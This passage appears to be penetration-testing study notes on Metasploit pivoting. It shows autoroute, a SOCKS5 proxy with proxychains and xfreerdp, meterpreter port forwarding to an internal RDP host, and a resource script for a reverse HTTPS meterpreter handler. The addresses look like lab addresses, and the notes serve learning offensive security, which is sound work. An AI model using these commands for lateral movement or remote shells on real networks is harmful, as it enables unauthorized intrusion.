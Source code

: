 can terminate existing routes with 
```
route flush
```

now use auto route
```
use multi/manage/autoroute
show options
sessions -l
set session 12
run
```

We could now use the psexec module as we did before, but we can also combine routes with the server/socks_proxy auxiliary module to configure a SOCKS2 proxy. This allows applications outside of the Metasploit Framework to tunnel through the pivot on port 1080 by default. We set the option SRVHOST to 127.0.0.1 and VERSION to 5 in order to use SOCKS version 5.
```
use auxiliary/server/socks_proxy 
show options
set SRVHOST 127.0.0.1
set VERSION 5
run -j
```

then update conf file
```
socks5 127.0.0.1 1080
```

finally run the command
```
sudo proxychains xfreerdp /v:172.16.5.200 /u:luiza
```

can also use a similar technique for port forwarding

```
sessions -i 12
portfwd add -l 3389 -p 3389 -r 172.16.5.200
```

can now run command without proxy chains
```
sudo xfreerdp /v:127.0.0.1 /u:luiza
```

### Resource Scripts
can automate tasks with .rc files

example
```
use exploit/multi/handler
set PAYLOAD windows/meterpreter_reverse_https
set LHOST 192.168.119.4
set LPORT 443

set AutoRunScript post/windows/manage/migrate 
set ExitOnSession false
run -z -j
```

